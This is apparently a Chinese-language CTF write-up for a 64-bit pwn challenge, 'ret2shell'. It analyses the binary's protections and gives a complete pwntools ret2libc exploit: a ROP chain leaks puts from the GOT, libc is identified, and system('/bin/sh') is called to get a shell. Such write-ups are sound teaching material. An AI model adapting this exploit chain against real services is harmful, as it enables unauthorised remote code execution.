 # ret2shell 

## 文件分析

下载`ret2shell`, NX off, PIE off, RELRO off  
ghidra分析为64位程序

## 解题思路

> .bss不可执行，且栈溢出的空间不足以放下shellcode，转而考虑**ret2libc**

打完moectf后记：shellcode放的下，但是不太好在栈上执行shellcode  
ret2libc过程参考moectf2023和cbctf的

## EXPLOIT

```python
from pwn import *
import LibcSearcher

sh = remote(???, 10032)
elf = ELF('ret2shell')

putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x400703
mainAddr = elf.symbols['main']

# payload 1
sh.sendline(b'x')
sh.sendlineafter(b':', b'0'*0x18 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(mainAddr))

sh.recvuntil(b'\n') # skip
data = sh.recv()
putsGotAddr = u64(data[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
shstrAddr = libcBase + libc.dump('str_bin_sh')
systemAddr = libcBase + libc.dump('system')
retAddr = 0x400696

# payload 2
sh.sendline(b'x')
sh.sendlineafter(b':', b'0'*0x18 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.
